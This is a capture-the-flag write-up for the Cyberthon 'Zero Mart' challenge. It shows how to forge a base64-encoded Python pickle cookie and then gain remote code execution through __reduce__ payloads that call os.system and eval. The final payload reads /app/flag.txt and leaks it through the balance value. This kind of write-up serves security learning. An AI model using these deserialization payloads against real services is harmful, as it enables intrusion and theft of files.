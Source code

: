 # Zero Mart

> APOCALYPSE has recently started ZeroMart, which is a service that lets their agents redeem the latest 0-day exploits with their credits. Seems like their members have been accessing their underground service by using a client program that has been given to them. We've managed to get our hands on the client, so can you try and infiltrate their system? The server runs python 3.7

>  Note: flag.txt is located at `/app/flag.txt`. Also you might need to install the python requests library to get the client running.

Here's an abbreviated version of the attached `client.py`:

```python
session = requests.Session()
r = session.get(ENDPOINTS['init'])
balance = r.json()['balance']
shop = r.json()['shop']
while True:
    menu()
    choice = input('Choice: ')
    r = session.post(ENDPOINTS['buy'], json={'item': choice})
    print(f"[+] {r.json()['message']}")
    if 'balance' in r.json().keys():
        balance = r.json()['balance']
    input('Press Enter to continue...')
```

Initially, the balance starts off at 1 credit. A large amount of credits is required to buy other items, but `Chipusuketo` can be bought with just 1 credit.

```
HaatoBurido (31337 Credits)
Pudoru (31337 Credits)
Merutodaun (31337 Credits)
Rouhanma (31337 Credits)
Sherushoku (31337 Credits)
Etanaruburu (31337 Credits)
Chipusuketo (1 Credits)
```

After buying `Chipusuketo`, we observe that the balance decreases to zero and we're no longer allowed to buy anything. So the balance information must be stored somewhere. But where? Sending the request in Postman reveals a cookie `zero_mart_data="gAN9cQBYBwAAAGJhbGFuY2VxAUsBcy4="`. This is clearly Base64 data, but decoding it produces a bunch of unreadable characters.

## Pickles

However, given that the server uses python, we may guess that [python pickles](https://docs.python.org/3/library/pickle.html) have been used to store the data. (This is reinforced by the fact that there is a specific python 3.x version stated, as pickles created with one version may not be decodable by others) Decoding the pickle using `pickle.loads`:

````python
import pickle
import base64

print(pickle.loads(base64.b64decode("gAN9cQBYBwAAAGJhbGFuY2VxAUsBcy4=")))
# => {'balance': 1}
````

Now we know how the data is encoded, we change the balance to whatever we want. For example:

```python
def make_cookie(data):
    c = str(base64.b64encode(data))[2:-1]
    return '"' + c + '"'

pic = pickle.dumps({"balance":696969})

session.cookies.set('zero_mart_data', make_cookie(pic),
                        domain="aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg")
```

This allows us to buy whatever we want, but we still can't get the flag. We will need to think of something more advanced.

## RCE using pickle

Note: See [Exploiting Python pickles - David Hamann](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) for an in-depth explanation

While pickle is frequently used to store python objects in a binary format, deserializing arbitrary pickles is very dangerous and can actually lead to remote code execution. Let's see how this works.

```python
import pickle

class Exploit:
    def __reduce__():
        return print, ("Hello, world",)
    
pic = pickle.dumps(Exploit())
data = pickle.loads(pic)
# => Prints "Hello, world"
print(data)
# => None
```

Python's pickle module allows us to customize what will happen when a pickle is deserialized. This is specified through the `__reduce__` method in a class. When an instance of `Exploit` is pickled, the `__reduce__` function is called. The `__reduce__` function should return a tuple of 2 items, a function and a tuple of arguments. Pickle stores these in the pickle. When `pickle.loads` is called, the function stored in the pickle is called with the arguments specified. Thus, in this case, `print("Hello, world")` is executed. The return value of `pickle.loads` is the return value of the function called, which is `None` in the case of `print`.

One benefit of pickle is that you can store pretty much any function, including Python module functions that are not currently imported. For example,

```python
import os
class Exploit:
    def __reduce__():
        return os.system, ("ls",)
    
pic = pickle.dumps(Exploit())
```

If `pickle.loads(pic)` is executed in another python environment, even without `import os`, the `ls` command would still be run.

## Getting the flag

However, even once we get RCE, it's still not game over yet. If we used the exploit from above, the server returns a `Internal Server Error` instead of listing any files. This is probably because the server does something like

```python
data = pickle.loads(cookie)
balance = data["balance"]
```

Because `os.system("ls")` returns `0`, and `0` is not a dictionary, the process crashes. During the CTF, I tried several different ways of exfiltrating the flag from the server, such as reverse shell and HTTP requests but none were successful :<.

The challenge authors may have decided to make it harder by blocking all network connections out of the service. Anyway, we can still transfer data out through the service itself.

```python
class Exploit:
    def __reduce__():
        return eval, ('{"balance":1+1}',)
    
pic = pickle.dumps(Exploit())
```

In Python (and several other languages), `eval` executes the string it is passed as Python code. In this case, `pickle.loads` returns `{"balance": 2}`. This is displayed to us as the number of credits left after a transaction. Since we can control how `balance` is computed, we can try to use this to encode the flag. But how do we encode a string as an integer? There are many ways of varying complexity, but one of the simplest and most straightforward is to concatenate the binary ASCII values of each character together and parse it as a single integer. Here's some code for doing that:

```python
def bytes_to_int(b):
    return int("".join([bin(x)[2:].zfill(8) for x in b]),2)

def int_to_bytes(inp):
    # Higher order bit of ASCII is zero
    bstr = "0" + bin(inp)[2:]
    chunks = [int(bstr[i:i+8], 2) for i in range(0, len(bstr), 8)]
    return "".join([chr(x) for x in chunks])
```

The final payload:

```python
class Exploit:
    def __reduce__(self):
        return eval, ('{"balance": int("".join([bin(x)[2:].zfill(8) for x in open("/app/flag.txt", "rb").read()]), 2)}',)


pic = pickle.dumps(Exploit())
session.cookies.set('zero_mart_data', make_cookie(pic), domain="aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg")

r = session.post(ENDPOINTS['buy'], json={'item': "Chipusuketo"})
balance = r.json()['balance'] + 1
print(int_to_bytes(balance))
# => Cyberthon{1r0n1c_h0w_z3r0_m4rt_h45_4_z3r0_d4y}
```

While I didn't solve this challenge within the CTF, it's still an interesting challenge that required me to think out of the box.


